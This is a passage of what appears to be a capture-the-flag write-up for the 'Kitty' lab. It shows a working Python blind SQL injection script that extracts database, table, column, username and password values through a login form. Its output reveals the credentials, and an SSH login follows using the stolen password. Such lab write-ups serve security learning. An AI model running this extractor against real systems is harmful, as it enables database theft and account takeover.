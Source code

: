 ```bash
	for value_row_index in range(value_row_count):
		value = ""
		value_len = get_value_len(value_row_index, column, database_table, sql_filter)
		for char_index in range(value_len):
			for char_ord in range(32,127): # Ascii values for non-special characters. 
				if send_payload({"username":f"{valid_username}' and ord(substr((select {column} from {database_table} {sql_filter} limit {str(value_row_index)},1),{str(char_index+1)},1))={str(char_ord)}-- -","password":"asd"}):
					value += chr(char_ord)
		values.append(value)
	return values

# To extract database names
# print(extract_values("schema_name", "information_schema.schemata"))
# ['information_schema', 'performance_schema', 'mywebsite', 'devsite']

# To extract table names for mywebsite database
# print(extract_values("table_name", "information_schema.tables", "where table_schema=\"mywebsite\""))
# ['siteusers']

# To extract columns for siteusers table on mywebsite database
# print(extract_values("column_name", "information_schema.columns", "where table_name=\"siteusers\" and table_schema=\"mywebsite\""))
# ['created_at', 'id', 'password', 'username']

# To extract usernames from siteusers table
print(extract_values("username", "mywebsite.siteusers", f"where username!=\"{valid_username}\""))
# To extract passwords from siteusers table
print(extract_values("password", "mywebsite.siteusers", f"where username!=\"{valid_username}\""))
```



```bash
:~/Kitty# python3 dump.py
['admin', 'kitty', 'lulu']
['password', 'L0ng_Liv3_KittY', 'password']
```



```bash
:~/Kitty# ssh kitty@kitty.thm
The authenticity of host 'kitty.thm (10.201.19.107)' can't be established.
ECDSA key fingerprint is SHA256:wUj4JZaeaXZlcJaMqPhhSk5xdAe1L1T6ByHiAb/mhkQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kitty.thm,10.201.19.107' (ECDSA) to the list of known hosts.
kitty@kitty.thm's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 17 Aug 2025 08:09:11 PM UTC

  System load:  0.02              Processes:             125
  Usage of /:   62.2% of 8.87GB   Users logged in:       0
  Memory usage: 19%               IPv4 address for eth0: 10.201.19.107
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge
```